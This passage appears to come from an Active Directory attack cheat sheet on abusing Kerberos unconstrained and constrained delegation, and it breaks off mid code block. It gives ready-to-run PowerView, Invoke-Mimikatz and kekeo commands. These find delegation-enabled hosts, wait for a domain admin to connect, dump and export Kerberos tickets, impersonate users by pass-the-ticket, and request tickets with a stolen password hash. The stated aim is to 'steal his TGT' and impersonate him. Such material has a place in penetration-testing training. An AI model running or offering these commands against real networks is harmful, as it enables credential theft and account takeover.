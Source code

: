Detailed Article:
[DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Unconstrained Delegation

_WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a
high value target or DA to connect to it, steal his TGT then ptt and impersonate him!_

Using PowerView:

```powershell
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:

```powershell
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

